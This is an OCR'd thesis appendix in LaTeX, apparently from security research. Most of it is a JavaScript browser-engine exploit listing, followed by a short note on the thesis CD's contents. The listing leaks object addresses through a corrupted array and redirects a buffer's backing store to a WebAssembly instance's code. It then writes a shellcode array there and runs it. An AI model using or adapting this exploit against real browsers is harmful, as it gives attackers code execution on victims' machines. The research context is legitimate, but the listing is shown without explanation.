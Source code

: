 \documentclass[a4paper,twoside,12pt]{book}
\begin{document}
\begin{appendices}
\begin{lstlisting}
    delete corrput_arr;
    function setbackingStore(hi, low) {
        rwarr[4] = i2f(fLow(rwarr[4]), hi);
        rwarr[5] = i2f(low, fHi(rwarr[5]));
    }
    function leakObjLow(o) {
        corrupt_buff.slot = o;
        return (fLow(rwarr[9]) - 1);
    }
    let corrupt_view = new DataView(corrupt_buff);
    let corrupt_buffer_ptr_low = leakObjLow(corrupt_buff);
    let idx0Addr = corrupt_buffer_ptr_low - 0x10;
    let baseAddr = (corrupt_buffer_ptr_low & 0xffff0000) 
		- ((corrupt_buffer_ptr_low & 0xffff0000) % 0x40000) 
		+ 0x40000;
    let delta = baseAddr + 0x1c - idx0Addr;
    if ((delta % 8) == 0) {
        let baseIdx = delta / 8;
        this.base = fLow(rwarr[baseIdx]);
    } else {
        let baseIdx = ((delta - (delta % 8)) / 8);
        this.base = fHi(rwarr[baseIdx]);
    }
    let wasmInsAddr = leakObjLow(wasmInstance);
    setbackingStore(wasmInsAddr, this.base);
    let code_entry = corrupt_view.getFloat64(13 * 8, true);
    setbackingStore(fLow(code_entry), fHi(code_entry));
    for (let i = 0; i < shellcode.length; i++) {
        corrupt_view.setUint8(i, shellcode[i]);
    }
    main();
</script>
\end{lstlisting}
 

\chapter*{Contents of attached CD}

The thesis is accompanied by a CD containing:
\begin{itemize}
\item thesis (\texttt{pdf} file),
\item source code of applications,
\item data sets used in experiments.
\end{itemize}

\listoffigures
\listoftables
	
\end{appendices}
\end{document}
